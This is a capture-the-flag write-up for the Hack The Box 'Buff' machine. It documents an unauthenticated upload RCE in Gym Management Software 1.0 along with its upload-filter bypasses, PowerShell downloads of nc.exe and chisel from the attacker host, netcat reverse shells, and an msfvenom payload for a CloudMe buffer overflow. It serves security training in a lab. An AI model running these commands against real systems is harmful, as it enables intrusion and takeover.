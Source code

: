 ```yaml
---
layout: post
title:  "Hack The Box - Buff Writeup"
date:   2020-11-21 06:00:00
categories: Security CTF HTB"
author: Ryan
---
```


*[Hack The Box](hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![HTB - Buff](../images/HTB-Buff/Header.png)

Buff is an Easy level Windows machine. The box statistics show us that we will be focusing heavily on existing CVEs, while working on enumeration skills in a somewhat realistic setup.  
![Buff Statistics](../images/HTB-Buff/Statistics.png)

## Information Gathering

#### Nmap:
By scanning the tartget IP with Nmap, we're able to find what ports are open, while fingerprinting the services running and their versions.  
`>> nmap -p7680,8080 -sC -sV -Pn  -oA Extracts/Buff 10.10.10.198`
![Nmap](../images/HTB-Buff/nmap.png)

### Mrb3n's Bro Hut
Navigating to [http://10.10.10.198:8080](http://10.10.10.198:8080) leads us to what appears to be a pretty basic gym website. We can see infomation around their offerings, pricing, and facilities. One piece of information that stands out can be seen on the [Contact](http://10.10.10.198:8080/contact.php) page.  
![Buff Statistics](../images/HTB-Buff/Information_Gathering_GymManagementSoftware.png)

## Foothold
By researching the Gym Management Software version 1.0, we can see there are a wide range of reported vulnerabilities. An [Unauthenticated RCE](https://www.exploit-db.com/exploits/48506) exploit can be found on Exploit-DB, and looks to be promising.

### Script Usage
After downloading the exploit to our machine, we can learn more about its usage with the following command:  
`>> python 48506.py`
![Shell Help](../images/HTB-Buff/Shell_Help.png)

### Running the Script
Passing in our target server, the exploit runs successfully, and we gain shell access.  
`>> python 48506.py http://10.10.10.198:8080/`
![Shell Run](../images/HTB-Buff/Shell_Run.png)

### How it works
Reading through the exploit, it appears that the Gym Management Software is missing user authentication on its file upload at `upload.php`. Combining this with a few tricks to bypass any file upload restrictions, and we're able to achieve a basic web shell.

File Restriction Bypasses:
* **Filename.php.png**: If the server is only checking the last file extension, we're able to successfully pass the check by appending ".png" to the file name.
* **image/png**: By setting the content-type to image/png, we're telling the server that the file is an image, nothing suspicious to see here.
* **Magic Bytes**: In case the server decides to check the content of the file, rather than just the filename and content-type, we're passing it a series of "magic bytes" which act as a file signature. The bytes sent in this case, `\x89\x50\x4e\x47\x0d\x0a\x1a`, represent a PNG file.  
![Shell Code 1](../images/HTB-Buff/Shell_Code_1.png)

## Enumeration
### User Flag
We appear to be running as the user `shaun`. Let's see if we can get the User Flag.  
`>> type C:\Users\shaun\Desktop\user.txt`
![User Flag](../images/HTB-Buff/User_Flag.png)

### Upgrade Shell
Before we get too far into the box, let's upgrade our shell using Netcat. The current shell is very basic and unable to do many of the tasks we may need when enumerating or trying to escalate privileges later.

Set up local server to get nc.exe onto the target box. Make sure that you've got a local copy of nc.exe in whatever directory you're hosting from.    
`>> python -m SimpleHTTPServer`

Downloading Netcat  
`>> powershell -c "Invoke-WebRequest -Uri '10.10.14.39:8000/nc64.exe' -OutFile 'nc.exe'"`

Setting up a listener on our local machine  
`>> nc -lvnp 3333`

Starting Netcat from taget box  
`>> .\nc.exe 10.10.14.39 3333 -e cmd.exe`

### Looking Around
Its possible that there are additional users to pivot to, lets check.  
`>> dir C:\Users`  
![User Enum](../images/HTB-Buff/Enum_Users.png)

With no additional users to work with, we can continue looking through shaun's directories  
`>> dir C:\Users\shaun\Downloads`  
![Downloads Enum](../images/HTB-Buff/Enum_Downloads.png)

CloudMe_1112.exe looks interesting. A little research shows it runs on port 8888 by default. Let's see if there's anything listening there.  
`>> netstat -a`  
![Network Enum](../images/HTB-Buff/Enum_Network.png)

By checking the list of processes running, we can see if CloudMe is already running and if it's process is owned by another user (perhaps Admin?).  
`>> tasklist /v`  
![Process Enum](../images/HTB-Buff/Enum_Process.png)

It looks like CloudMe is running as a user other than shaun. This is promising, since Administrator was the only other account we found.

## Privilege Escalation
If the name "Buff" wasn't enough of a hint of what's to come, you may be surprised to find that CloudMe 1.11.2 is vulnerable to a [Buffer Overflow](https://www.exploit-db.com/exploits/48389). It first requires us to get network access to the service running on port 8888. Let's get that set up with a small TCP/UDP Tunneling tool called [Chisel](https://github.com/jpillora/chisel).

### Tunnelling Port 8888
Start Listener on local machine over port 8800  
`>> sudo ./chisel server -p 8800 -reverse`

Download Chisel.exe to target box  
`>> powershell -c "Invoke-WebRequest -Uri '10.10.14.39:8000/chisel.exe' -OutFile 'chisel.exe'"`

Tunnel connection from target box to local machine  
`>> chisel.exe client 10.10.14.39:8800 R:8888:127.0.0.1:8888`

Result:  
![PrivEsc Tunnel](../images/HTB-Buff/PrivEsc_Tunnel.png)

### Generating Payload
The exploit we're using is currently set up to launch calc.exe. By using msfvenom, we can create a custom payload to do anything we want. Because the  
`>> msfvenom -a x86 -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.39 4444 -e cmd.exe' -b '\x00\x0A\x0D' -f python -v payload`  
![Payload Generation](../images/HTB-Buff/Payload_Generation.png)

### Execution
With our updated exploit, we'll be able to trigger the buffer overflow and 

Set up another listener on our local machine  
`>> nc -lvnp 4444`

Running completed exploit  
`>> python 48389.py`  
![Root Shell](../images/HTB-Buff/Shell_Root.png)

### Root Flag
With our administrative shell, we're able to retrieve the flag  
`>> type C:\Users\Administrator\Desktop\root.txt`  
![Root Flag](../images/HTB-Buff/Root_Flag.png)

